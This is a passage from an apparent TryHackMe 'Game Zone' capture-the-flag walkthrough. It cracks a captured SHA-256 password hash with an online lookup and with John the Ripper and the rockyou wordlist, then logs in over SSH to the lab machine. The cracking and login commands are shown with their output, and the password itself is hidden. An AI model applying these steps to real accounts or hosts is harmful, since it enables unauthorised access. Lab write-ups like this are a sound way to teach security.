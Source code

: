First result looks good, let's put our hash in and see if they can decrypt it:

![gamezone-result](/assets/images/2021-02-07-23-06-59.png)

Excellent, it's one that's been seen before so we have our password.

## Task 4

If you're following the room guide then you could have used JohnTheRipper instead. First save found username and hash to a file:

```text
root@kali:/home/kali/thm/gamezone# cat hash.txt
agent47:<HIDDEN>
```

Then use the rockyou wordlist against it:

```text
root@kali:/home/kali/thm/gamezone# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>    (agent47)
1g 0:00:00:00 DONE (2021-02-08 22:14) 3.030g/s 8837Kp/s 8837Kc/s 8837KC/s vimivi..veluca
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

You now have the dehashed password which let's you answer a question on Task 4.

We have a username and password, let's try to ssh on to the box:

```text
root@kali:/home/kali/thm/gamezone# ssh agent47@10.10.42.137
agent47@10.10.42.137's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)
Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$
```

